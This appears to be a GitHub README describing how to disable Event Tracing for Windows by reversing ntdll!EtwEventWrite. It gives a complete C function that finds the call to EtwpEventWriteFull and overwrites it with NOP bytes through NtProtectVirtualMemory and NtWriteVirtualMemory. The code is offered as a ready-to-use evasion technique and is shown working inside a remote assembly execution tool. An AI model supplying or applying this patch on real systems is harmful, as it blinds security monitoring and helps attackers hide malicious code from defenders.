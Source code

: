 # Patching ETW 

### Event Tracing for Windows (ETW) provides a mechanism to trace and log events that are raised by user-mode applications and kernel-mode drivers.  
### **ntdll!EtwEventWrite is responsible for writing an event , it's not actually the function that do the Event Writing job, by reversing it, we can see that it calls **ntdll!EtwpEventWriteFull that do the actual Event Writing :  
  
![IDAetw](https://user-images.githubusercontent.com/110354855/198856050-d5a3d460-0ad7-494b-abb8-018333d2f497.png)  
   
### this call is done at offset (0x214 -  0x1f0 = 0x24) and it takes 5 bytes, the idea here is to write a program that identify 0xe8 the opcode of the call instruction and overwrite this call memory with 5 bytes , so that the call will never done  
  

![TheCall](https://user-images.githubusercontent.com/110354855/198856198-a66c74e6-5833-47d4-a82c-1646206bf61b.png)

  
![EtwPatch](https://user-images.githubusercontent.com/110354855/198856224-12901961-150b-4116-946f-ad149705dc96.png)

### Here is the full Patch function :  
```c
void patchEtwpEventWriteFull(OUT HANDLE& hProc) {

    void* etwAddr = GetProcAddress(GetModuleHandle(L"ntdll.dll"), "EtwEventWrite");

    for (BYTE offset = 0; offset <= 100; offset++) {
        if (*((PBYTE)etwAddr + offset) == 0xe8 && *((PBYTE)etwAddr + offset + 9) == 0xc3) {
            char etwPatch[] = { 0x90, 0x90, 0x90, 0x90, 0x90 };

            DWORD lpflOldProtect = 0;
            unsigned __int64 memPage = 0x1000;
            void* etwAddr_bk = (void*)(((INT_PTR)etwAddr + offset));;

            NTSTATUS NtProtectStatus1 = NtProtectVirtualMemory(hProc, (PVOID*)&etwAddr_bk, (PSIZE_T)&memPage, 0x04, &lpflOldProtect);
            if (!NT_SUCCESS(NtProtectStatus1)) {
                printf("[!] Failed in NtProtectVirtualMemory1 (%u)\n", GetLastError());
                return;
            }

            NTSTATUS NtWriteStatus = NtWriteVirtualMemory(hProc, (LPVOID)((INT_PTR)etwAddr + offset), (PVOID)etwPatch, sizeof(etwPatch), (SIZE_T*)nullptr);
            if (!NT_SUCCESS(NtWriteStatus)) {
                printf("[!] Failed in NtWriteVirtualMemory (%u)\n", GetLastError());
                return;
            }

            NTSTATUS NtProtectStatus2 = NtProtectVirtualMemory(hProc, (PVOID*)&etwAddr_bk, (PSIZE_T)&memPage, lpflOldProtect, &lpflOldProtect);
            if (!NT_SUCCESS(NtProtectStatus2)) {
                printf("[!] Failed in NtProtectVirtualMemory2 (%u)\n", GetLastError());
                return;
            }
        }
        if (*((PBYTE)etwAddr + offset) == 0xc3) {
            break;
        }
    }
    

    std::cout << "[+] Patched etw!\n";

}
```
### Let's test it inside [ExecRemoteAssembly](https://github.com/D1rkMtr/ExecRemoteAssembly)  
  
  
https://user-images.githubusercontent.com/110354855/198856339-644c09c0-7299-4533-9175-716d639fb216.mp4  
  
## As you can see the ntdll!EtwEventWrite failed to write Event for the current process after patching it  




